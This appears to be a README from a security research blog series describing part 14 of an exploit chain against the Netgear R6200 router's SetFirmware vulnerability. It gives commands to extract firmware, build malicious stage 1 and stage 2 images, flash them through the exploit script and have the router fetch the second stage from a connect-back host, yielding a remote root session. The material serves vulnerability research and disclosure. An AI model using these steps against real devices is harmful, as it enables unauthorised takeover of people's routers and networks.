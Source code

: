 ##Broken, Abandoned, and Forgotten Code, Part 14

This code corresponds with [part 14](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build the second stage firmware image that will be flashed to the device by stage 1 and, after rebooting, will provide a remote root session.

There have been substantial changes to the part 14 code from the previous part. While ``setfirmware.py`` is still present, there is a new exploit script, ``firmware_exploit.py``. This script uses classes declared in the former. It also provides the various connect-back servers you require to serve connections to the first and second stage payloads. It requires to command line arguments. Instead, configuration parameters are specified in ``environment.py``, which is thoroughly documented.

A build system to create the stage 1 and 2 firmware images can be found in payload-src. However, there are a few pieces I didn't include due to licensing.

* Kernel image (proprietary Netgear EULA)
* Root filesystem (proprietary Netgear EULA)
* mtd writing utility from OpenWRT (GPL licensed)

You can extract the filesystem and kernel from a stock Netgear firmware image. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

Identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into payload-src/.

Unpack the squashfs.bin into a root filesystem. Extracting a SquashFS filesystem is beyond the scope of this documentation.

You'll need to put a copy of the non-minimized root filesystem in place for stage 2. Put an unmodified ``rootfs.tar.gz`` in ``exploit-src/stage2/src/``.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in ``exploit-src/stage1/src/``.

The mtd writer is responsible for flashing the stage 2 firmware image. I have modified this utility from OpenWRT to work with this project. Check out the source and put it in place:

    $ git clone https://github.com/zcutlip/mtdwriter.git
    $ tar zcvf broken_abandoned/part_13/exploit-src/stage1/src/mtdwriter.tar.gz mtdwriter/

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 firmware:

    $ cd exploit-src/
    $ ./buildmipsel.sh

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the ``SetFirmware`` vulnerability, and flash your firmware image to the router:

``./setfirmware.py <stage_1_firmware.bin>``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``

